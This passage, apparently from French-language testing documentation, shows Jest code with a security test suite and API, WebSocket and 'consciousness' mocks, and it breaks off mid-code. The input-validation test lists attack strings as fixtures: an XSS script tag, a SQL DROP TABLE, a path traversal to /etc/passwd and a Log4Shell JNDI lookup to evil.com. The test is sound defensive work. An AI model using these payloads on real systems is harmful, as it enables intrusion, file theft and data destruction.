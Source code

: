 ## 🛡️ TESTS DE SÉCURITÉ

```javascript
describe('🛡️ Tests de Sécurité', () => {
  test('should validate input sanitization', async () => {
    const maliciousInputs = [
      '<script>alert("xss")</script>',
      'DROP TABLE users;',
      '../../etc/passwd',
      '${jndi:ldap://evil.com}'
    ];
    
    for (const input of maliciousInputs) {
      const result = await api.validateInput(input);
      expect(result.valid).toBe(false);
      expect(result.threat_detected).toBe(true);
    }
  });

  test('should handle authentication properly', async () => {
    const unauthenticatedRequest = await api.sensitiveOperation();
    expect(unauthenticatedRequest.error).toContain('authentication');
    
    const authenticatedRequest = await api.sensitiveOperation({ 
      token: 'valid_token' 
    });
    expect(authenticatedRequest.success).toBe(true);
  });
});
```

## 🎭 MOCKS ET STUBS STANDARD

```javascript
// Mock API Standard
const mockAPI = {
  createUserSession: jest.fn().mockResolvedValue({
    id: 'session123',
    user: 'test_user',
    consciousness_level: 0.7
  }),
  
  processQuery: jest.fn().mockImplementation((query) => ({
    success: true,
    query,
    response: `Processed: ${query}`,
    confidence: 0.9
  }))
};

// Mock WebSocket
const mockWebSocket = {
  send: jest.fn(),
  close: jest.fn(),
  addEventListener: jest.fn(),
  removeEventListener: jest.fn()
};

// Mock Consciousness System
const mockConsciousness = {
  level: 0.8,
  evolve: jest.fn().mockImplementation(function() {
    this.level = Math.min(1.0, this.level + 0.1);
```